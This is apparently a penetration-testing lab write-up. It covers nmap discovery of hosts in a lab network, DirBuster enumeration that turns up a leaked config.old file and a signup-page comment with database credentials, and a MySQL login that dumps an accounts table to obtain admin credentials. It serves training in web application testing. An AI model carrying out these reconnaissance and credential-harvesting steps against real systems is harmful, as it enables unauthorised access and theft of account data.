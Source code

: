 #Dirbuster Lab

Description

You are a Penetration Tester hired by the company AwdMgmt to perform security tests on their internal Web Application and machines. You are asked to perform the penetration test on the client premises. During this engagement you are not given a well-defined scope. You are sitting in the client corporate building, 
directly attached to the client network.

Goal

The goal of this lab is to first find the web servers in the network you are directly attached. Then to test the Web Application running on it in order to check if you can access restricted areas (such as the login page)!

Tools

- Dirbuster
- mysql
- web browser

Steps:
Find all the machines in the network
`sudo nmap -sn 10.104.11.50/24`
Discovered three hosts.
10.104.11.96, 10.104.11.198, 10.104.11.50
`sudo nmap -sV -sS 10.104.11.96,198,50`
This scan took forever. 

```
Nmap scan report for 10.104.11.96
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
MAC Address: 00:50:56:8E:65:25 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 10.104.11.198
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.0p1 Debian 4+deb7u2 (protocol 2.0)
3306/tcp open  mysql   MySQL 5.5.38-0+wheezy1
MAC Address: 00:50:56:8E:D1:20 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Apache web server on 10.104.11.96 with open SSH
MySQL database on 10.104.11.198 with open SSH

Directory enumeration of web browser. 
dirbuster with URL. medium.txt wordlists. and the file extensions php,txt,bak,xxx,old
Access to login page...

Discovered database password in a hidden file.
`http://10.104.11.96/include/config.old` 

dbhostname=127.0.0.1
dbuser='awd'
dbpassword=UcuicjsQgG0FILdjdL8D
dbname=awd
Invalid credentials:
mysql -u awd -pUcuicjsQgG0FILdjdL8D -h 10.104.11.198

IN URL: go to /signup.php
```
TODO: Sign-up page

@Dev team: the DB credentials are
    Username:   awdmgmt
    Password:   UChxKQk96dVtM07
    Host:       10.104.11.198
    DB:         awdmgmt_accounts
    DMBS:       MySQL

To test the credentials you can use mysql via command line (Windows, Linux, Mac):
    example: mysql -u USERNAME -pPASSWORD -h HOST DB

Best regards
    IT TEAM
```

These creds logged us in
`mysql -u awdmgmt -pUChxKQk96dVtM07 -h 10.104.11.198`

Logged in:
`mysql> use awdmgmt_accounts;`
`mysql> show tables;`
`mysql> select * from accounts;`
Got credentials:
Admin:ENS7VvW8
Email: admin@awdmgmt.labs

Successful log in.

